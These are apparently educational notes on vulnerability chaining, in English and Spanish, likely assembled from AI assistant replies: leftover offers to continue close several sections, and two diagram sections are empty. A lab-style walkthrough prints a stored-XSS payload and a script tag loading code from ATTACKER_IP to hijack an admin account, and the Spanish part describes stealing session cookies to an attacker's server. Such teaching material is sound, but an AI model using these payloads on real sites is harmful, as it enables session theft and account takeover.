


# Chaining Vulnerabilities

 Vulnerability chaining is the practice of combining multiple low- or medium-risk bugs to achieve a high-impact compromise. While individual security flaws may seem insignificant, attackers view applications holistically to build access step by step.Key TakeawaysThe Attacker Mindset: Real-world attackers do not rely solely on critical flaws. They actively exploit multiple minor issues to progress their access.The Flaw in Risk Ratings: Penetration testing reports evaluate vulnerabilities in isolation. This leads organisations to fix high-risk issues while ignoring smaller ones.Hidden Danger: Chaining several medium or low-risk issues can cause more severe damage than a single high-risk finding on its own.Holistic Approach: Effective security requires understanding how individual system flaws interconnect from an offensive perspective.To help tailour this summary or explore the topic further, please let me know if you would like to:Add specific technical examples of vulnerability chains (e.g., Cross-Site Scripting combined with Session Management flaws).Adjust the tone to make it more formal for an executive summary or more technical for a report.

 ### Vulnerability Chaining Mechanics
Vulnerability chaining involves connecting multiple low-severity weaknesses to achieve a high-impact exploit. Attackers use one flaw to gain initial access, another to move laterally, and a third to compromise data or execute code.
## Real-World Attack Methods

* Web Application Chain: An attacker combines a minor lack of anti-CSRF protection with a restricted Self-XSS flaw. This forces an administrator to trigger the exploit, completely compromising their session.
* Infrastructure Chain: The 2019 Capital One breach utilised a Server-Side Request Forgery (SSRF) flaw to query a metadata service. This allowed the attacker to steal credentials and exfiltrate cloud storage data.
* Authentication Chain: A system with username enumeration and no rate-limiting allows an attacker to brute-force an account. Once logged in, they exploit a restricted SQL Injection flaw to dump the entire database.

## The Failure of Patch-by-Patch Fixes
Organisations often treat bugs as isolated problems, patching single flaws whilst leaving related weaknesses exposed. This piecemeal approach fails because it ignores how attackers systematically connect remaining flaws to bypass security controls.
To help tailour this summary or explore these concepts further, please let me know if you would like to:

* Map out the specific technical steps of the SSRF cloud breach example.
* Draft a remediation checklist to help development teams identify interconnected risks.

## the Attacker Mindset Framework
Thinking like an attacker requires shifting focus from isolated bugs to a systematic, multi-step methodology [1]. Adversaries explore applications contextually, combining minor weaknesses to build a progressive path toward a specific objective [1].
## The 7-Step Exploitation Process

* 1. User Exploration: Navigate the application normally without hunting for bugs to map workflows, user roles, and sensitive actions [1].
* 2. Weakness Enumeration: Document all potential flaws and subtle behaviours, including low-risk issues and architectural inconsistencies [1].
* 3. Isolation Assessment: Analyse each finding independently to determine its exact standalone capability and execution context [1].
* 4. Objective Definition: Identify high-value targets based on application context, such as data exfiltration or administrative access [1].
* 5. Path Construction: Map a logical, step-by-step sequence linking the discovered flaws together toward the final objective [1].
* 6. Chain Validation: Execute and test every stage of the path sequentially to confirm execution and uncover hidden technical blockers [1].
* 7. Narrative Reporting: Document the findings as an interconnected story, demonstrating how the cumulative risk leads to a systemic compromise [1].

To help tailour this summary or apply this framework, please let me know if you would like to:

* Create a template report entry based on the Step 7 reporting guidelines.
* Develop a practical exercise to test these steps against a hypothetical target web application.
* Format this methodology into a cheat sheet for penetration testing teams.


## Summary of a Full Attack Chain
This walkthrough demonstrates how an attacker combines four minor application flaws to achieve a complete administrative takeover, proving that cumulative risk is far greater than isolated vulnerabilities suggest.
## Step-by-Step Attack Chain Example

* Step 1: Exploiting Test Credentials
* Action: The attacker logs into http://MACHINE_IP/ using an overlooked staging account (testuser / password123).
   * Outcome: Gains initial, low-privileged access to basic user features.
* Step 2: Identifying Stored XSS
* Action: The attacker tests the "display name" field with ```<script>alert(1)</script>```.
   * Outcome: The payload executes successfully on the page due to a lack of input sanitisation.
* Step 3: Executing CSRF via XSS
* Action: The attacker points the display name to an external JavaScript file hosted on their machine:
   ```Javascript
   <script src="http://ATTACKER_IP:8000/script.js"></script>
   ```
   * Mechanism: Because the site lacks CSRF tokens, the script forces any viewing administrator to silently send a password-change request to /update_email.php.
* Step 4: Full Admin Takeover
* Action: The attacker logs in using the newly forced credentials (admin / pwnedadmin).
   * Outcome: The attacker gains full access to all administrative functions and controls the system.

## Flawed Development Assumptions

* Active Test Accounts: Developers wrongly assumed staging data would not make it into the production environment.
* Unsanitised Input: The system trusted that user profile text would always be safe and free of code.
* Implicit Request Trust: The application assumed any request carrying valid browser cookies was intentionally sent by the user.
* Authentication Sufficiency: The platform trusted that anyone logged into the admin account was automatically the legitimate administrator.

To help tailour this summary or explore these attack phases deeply, please let me know if you would like to:

* Write a secure remediation script for update_email.php implementing proper CSRF tokens.
* Develop a code snippet showing how to safely sanitise the "display name" input in PHP or JavaScript.
* Convert this attack flow into a visual diagram or flowchart.


## Resumen del Encadenamiento No Lineal y Pivotaje
El encadenamiento de vulnerabilidades en el mundo real no sigue un camino recto. Cuando un plan inicial falla debido a defensas imprevistas, la creatividad y el pivotaje permiten transformar un hallazgo aparentemente inútil en un vector de ataque exitoso.
## Ejemplos de Pivotaje (Cuando la cadena lineal falla)

* Fallo por Token CSRF: Intentas usar un XSS Almacenado para cambiar el correo del administrador, pero la acción falla porque el sitio exige un token CSRF válido.
* Pivote A (Robo de Sesión): Modificas el XSS para que robe la cookie de sesión (document.cookie) del administrador y la envíe a tu servidor.
   * Pivote B (Filtración de Datos): Usas el XSS para leer el contenido de la pantalla del administrador (DOM) y extraer información confidencial mediante solicitudes en segundo plano.
   * Pivote C (Reconocimiento): Empleas el script para identificar el navegador, complementos o la dirección IP interna del administrador para un ataque posterior.
* Fallo por Restricción de Inyección SQL (SQLi): Encuentras una vulnerabilidad SQLi, pero el sistema bloquea los comandos para saltarse la autenticación de inicio de sesión.
* Pivote: Cambias de estrategia y usas la SQLi únicamente para extraer nombres de usuario o hashes de contraseñas de la base de datos, facilitando un ataque de fuerza bruta.

## Diferencias en los Objetivos: Red Team vs. Bug Bounty
El propósito del ataque determina qué tan lejos se debe llevar la cadena de explotación:

* Equipos de Red Team (Enfoque Holístico y Sigiloso):
* Objetivo: Demostrar el impacto real en la organización.
   * Acción: Ejecutan la cadena completa. Usan el acceso inicial para pivotar a redes internas, moverse lateralmente y establecer persistencia sin ser detectados.
* Programas de Bug Bounty (Enfoque de Riesgo y Seguridad):
* Objetivo: Mostrar el peligro potencial para que la empresa lo corrija.
   * Acción: Detienen la explotación en cuanto el riesgo queda demostrado de forma segura y reproducible, sin necesidad de dañar la infraestructura o alterar datos reales.

Para profundizar en estas estrategias de persistencia o metodologías de reporte, por favor indícame si deseas:

* Diseñar un diagrama de flujo que ilustre visualmente los caminos alternativos (pivotes) tras el fallo de un exploit.
* Redactar un ejemplo de reporte de Bug Bounty que demuestre el impacto crítico de un XSS sin llegar a la explotación total.
* Crear una guía de mitigación para evitar el pivotaje táctico dentro de una red empresarial.


# Diagrama de Flujo: Pivotaje Táctico en el Encadenamiento de Vulnerabilidades



### Cómo visualizar este diagrama
Este formato utiliza la sintaxis nativa de **Mermaid**. La mayoría de los entornos de desarrollo modernos, editores de texto como VS Code y plataformas de código como GitHub lo renderizan de forma automática en una gráfica interactiva.

Si deseas continuar desarrollando esta infraestructura técnica, indícame si te gustaría:
* **Desarrollar el código del exploit** para el **Pivote B** (extracción del DOM).
* **Crear la sección de recomendaciones** para que el equipo de desarrollo mitigue este flujo.
* **Escribir la narrativa de riesgo** combinando estos pivotes en un informe formal.


# Comparativa de Enfoques: Red Team vs. Bug Bounty



### Conclusión Clave
El enfoque elegido determina **cuánto necesitas desarrollar la cadena** y qué nivel de evidencia técnica es el adecuado. El encadenamiento efectivo no se basa únicamente en la destreza técnica, sino en la **curiosidad y la adaptabilidad** para entender que las aplicaciones fallan de formas impredecibles.

